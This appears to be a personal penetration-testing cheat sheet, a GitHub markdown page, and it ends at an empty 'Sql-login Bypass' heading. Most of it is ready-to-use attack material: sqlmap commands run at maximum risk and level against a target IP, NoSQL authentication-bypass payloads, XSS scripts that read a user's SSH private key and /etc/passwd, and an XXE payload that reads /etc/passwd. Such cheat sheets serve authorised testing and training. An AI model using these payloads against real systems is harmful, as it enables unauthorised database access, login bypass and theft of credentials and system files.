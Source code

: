 ### Sql-injection

```bash
#POST
sqlmap.py -r search-test.txt

#GET
sqlmap -u "http://$IP/index.php?id=1" --dbms=mysql

#FULL ;)
sqlmap -u 'http://$IP:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch

# NoSQL
' || 'a'=='a

#in URL
username[$ne]=0xtz&password[$ne]=0xtz  # :joy: i'm never use this user name

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

```

[sql-injection-authentication-bypass-cheat-sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

### XSS
```javascript
<script>alert("XSS")</script>
<script>alert(1)</script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

#Instead POST:

<?xml version="1.0" ?>
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>hack  &book;</thp>


#Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack
%26book%3B</thp>

```
### Sql-login Bypass
